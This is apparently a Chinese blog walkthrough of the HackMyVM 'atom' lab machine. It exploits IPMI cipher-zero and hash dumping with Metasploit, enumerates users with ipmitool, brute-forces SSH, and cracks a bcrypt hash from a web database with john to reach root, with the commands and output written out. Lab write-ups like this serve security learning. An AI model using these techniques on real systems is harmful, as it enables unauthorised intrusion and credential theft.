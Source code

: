 ```yaml
---
{"dg-publish":true,"title":"hackmyvm_atom","tags":["blog"],"dg-path":"安全/靶机/hackmyvm_atom.md","permalink":"/安全/靶机/hackmyvm_atom/","dgPassFrontmatter":true}
---
```


# 主机发现


![Pasted image 20250206121219.png](/img/user/picture/Pasted%20image%2020250206121219.png)
就开了一个22端口

![Pasted image 20250206121449.png](/img/user/picture/Pasted%20image%2020250206121449.png)


好像没什么信息，看一下UDP

![Pasted image 20250206122618.png](/img/user/picture/Pasted%20image%2020250206122618.png)


https://hacktricks.xsx.tw/network-services-pentesting/623-udp-ipmi
先看一下版本
```sh
nmap -sU --script ipmi-version -p 623 <ip>
```
![Pasted image 20250206123002.png](/img/user/picture/Pasted%20image%2020250206123002.png)

看一下漏洞是否可以利用
```sh
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/ipmi/ipmi_cipher_zero
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_cipher_zero) >> show options

Module options (auxiliary/scanner/ipmi/ipmi_cipher_zero):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS                      yes       The target host(s), see https://docs.metasploi
                                         t.com/docs/using-metasploit/basics/using-metas
                                         ploit.html
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_cipher_zero) >> set RHOST 192.168.124.26
RHOST => 192.168.124.26
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_cipher_zero) >> run
[*] Sending IPMI requests to 192.168.124.26->192.168.124.26 (1 hosts)
[+] 192.168.124.26:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```sh
ipmitool -I lanplus -C 0 -H <ip> -U root -P root user list # Lists users
```
但是我们缺少可用的用户名密码

![Pasted image 20250206154425.png](/img/user/picture/Pasted%20image%2020250206154425.png)

```sh
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_dumphashes) >> run
[+] 192.168.124.26:623 - IPMI - Hash found: admin:aae37ebd0212000032e2efc20addb57706955f8825ba6f4e2404b94bd04531ebb1045fd6a7081d27a123456789abcdefa123456789abcdef140561646d696e:f656e20c1ef210c796ec7f68a47d78077b3b3c33
[+] 192.168.124.26:623 - IPMI - Hash for user 'admin' matches password 'cukorborso'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

现在就有了用户名密码
```
admin cukorborso
```


```sh
ipmitool -I lanplus -C 0 -H 192.168.124.26 -U admin -P cukorborso user list 
```

![Pasted image 20250206154645.png](/img/user/picture/Pasted%20image%2020250206154645.png)

简单处理一下，形成用户字典

```sh
cat user_raw.txt | awk   '{print $2}' | grep -v "true" |  grep -v "Name" | tee -a user.txt
```


之后再根据这些用户名爆破出密码，在分别进行ssh登录，发现
`onida/jiggaman`
成功登录

![Pasted image 20250206165739.png](/img/user/picture/Pasted%20image%2020250206165739.png)

```txt
f75390001fa2fe806b4e3f1e5dadeb2b
```

# 提权

//自己做也是没什么思路，看了大佬wp发现服务器上有web目录

```sh
onida@atom:/var/www/html$ ls
atom-2400-database.db  img        js         profile.php   video
css                    index.php  login.php  register.php
onida@atom:/var/www/html$ strings atom-2400-database.db
SQLite format 3
mtableusersusers
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT UNIQUE NOT NULL,
    password TEXT NOT NULL
indexsqlite_autoindex_users_1users
tablelogin_attemptslogin_attempts
CREATE TABLE login_attempts (
    id INTEGER PRIMARY KEY,
    ip_address TEXT NOT NULL,
    attempt_time INTEGER NOT NULL
atom$2y$10$Z1K.4yVakZEY.Qsju3WZzukW/M3fI6BkSohYOiBQqG7pK1F2fH9Cm
        atom

```

哈希密码就在后面
```sh
┌──(root㉿kali)-[~/workspqce/pentest/atom]
└─# cat hash
$2y$10$Z1K.4yVakZEY.Qsju3WZzukW/M3fI6BkSohYOiBQqG7pK1F2fH9Cm

┌──(root㉿kali)-[~/workspqce/pentest/atom]
└─# john hash
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
madison          (?)
1g 0:00:00:03 DONE 2/3 (2025-02-06 04:09) 0.2732g/s 59.01p/s 59.01c/s 59.01C/s goodluck..stephen
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```


```sh
onida@atom:/var/www/html$ su -
Password:
root@atom:~# id
uid=0(root) gid=0(root) groups=0(root)
root@atom:~# cd /root
root@atom:~# ls
root.txt
root@atom:~# cat root.txt
d3a4fd660f1af5a7e3c2f17314f4a962
```






# 总结

别忘了UDP扫描










